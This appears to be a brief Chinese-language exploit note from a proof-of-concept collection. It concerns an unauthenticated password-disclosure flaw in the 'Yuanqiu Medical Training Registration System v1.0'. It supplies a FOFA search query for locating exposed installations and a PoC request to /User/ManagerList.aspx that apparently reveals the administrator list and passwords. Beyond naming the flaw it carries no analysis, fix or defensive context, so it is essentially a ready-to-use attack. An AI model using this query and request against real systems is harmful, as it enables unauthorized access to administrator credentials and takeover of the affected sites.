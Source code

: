 ## 远秋医学培训系统未授权查看密码

## fofa
```
title="远秋医学培训报名系统v1.0"
```

## poc
```
http://127.0.0.1:9042/User/ManagerList.aspx?ty=1&ty=1
```
![image](../../images/3f34d7d5-b435-4a0b-8062-7f37156b3a89.png)

![image](../../images/84cbfb7b-c38e-4de7-8356-fb84c5fbed49.png)
